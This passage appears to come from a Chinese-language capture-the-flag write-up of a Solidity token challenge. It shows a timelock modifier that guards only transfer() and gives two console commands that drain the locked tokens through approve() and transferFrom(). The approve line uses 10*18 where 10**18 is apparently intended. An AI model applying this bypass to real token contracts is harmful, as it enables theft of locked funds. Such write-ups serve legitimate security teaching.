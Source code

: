 ```javascript
  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```
&emsp;&emsp;这里我们可以看到合约只重写了transfer()函数，这里的balances并不是Ether，而是一种token，因此我们只需要给自己授权，然后吧token转给一个账户就行了。  

> await contract.approve(player,1000000*(10*18))
> await contract.transferFrom(player,instance,1000000*(10**18));  

&emsp;&emsp;这样以来我们就吧token全部转出了。  

---  


